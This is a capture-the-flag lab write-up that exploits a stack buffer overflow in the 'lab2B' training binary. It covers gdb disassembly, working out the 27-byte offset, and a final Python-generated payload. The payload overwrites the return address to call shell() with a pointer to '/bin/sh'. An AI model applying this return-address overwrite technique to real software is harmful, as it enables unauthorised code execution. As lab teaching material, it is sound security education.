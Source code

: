 `print_name <+13>` references our `buf` in order to setup `strcpy` by moving it to the top of the stack. If we want to access the return address we must move past ebp too, so 0x17 + 0x4 (size of ebp) = 27 bytes before we start overwriting our return address.

Now we know the shape of our buffer should be something like

```
AAAABBBBCCCCDDDDEEEEFFFFGGG\xbd\x86\x04\x08
```

Which gets the following output; Success! It looks like we're calling system but our parameter is some garbage memory '4:'.

```
lab2B@warzone:/levels/lab02$ ./lab2B $(python -c 'print("X"*27 + "\xbd\x86\x04\x08")')
Hello XXXXXXXXXXXXXXXXXXXXXXXXXXX▒▒
sh: 1: 4: not found
Segmentation fault (core dumped)
```

Now lets setup our parameter to be `/bin/sh`, starting by disassembling `shell()`.

```
.
gdb-peda$ disas shell
Dump of assembler code for function shell:
   0x080486bd <+0>:     push   ebp
   0x080486be <+1>:     mov    ebp,esp
   0x080486c0 <+3>:     sub    esp,0x18
   0x080486c3 <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x080486c6 <+9>:     mov    DWORD PTR [esp],eax
   0x080486c9 <+12>:    call   0x8048590 <system@plt>
   0x080486ce <+17>:    leave
   0x080486cf <+18>:    ret
End of assembler dump.
```

It looks like our parameter for system needs to be at `ebp+0x8` before we call `shell`, such that `shell <+6>` can copy it ready for the `system` call. So lets get a pointer to `/bin/sh` and put it at `ebp+0x8`.

Helpfully, the string already exists as a global variable, so we should be able to simply reference that if we can find its address.

```
gdb-peda$ p &exec_string
$1 = (<data variable, no debug info> *) 0x804a028 <exec_string>
gdb-peda$ x/wx &exec_string
0x804a028 <exec_string>:        0x080487d0
```

This gives us our final payload:

```
./lab2B $(python -c 'print("AAAABBBBCCCCDDDDEEEEFFFFGGG\xbd\x86\x04\x08XXXX\xd0\x87\x04\x08")')
```

We require the 4 padding X's before the parameters address as `ebp+8`
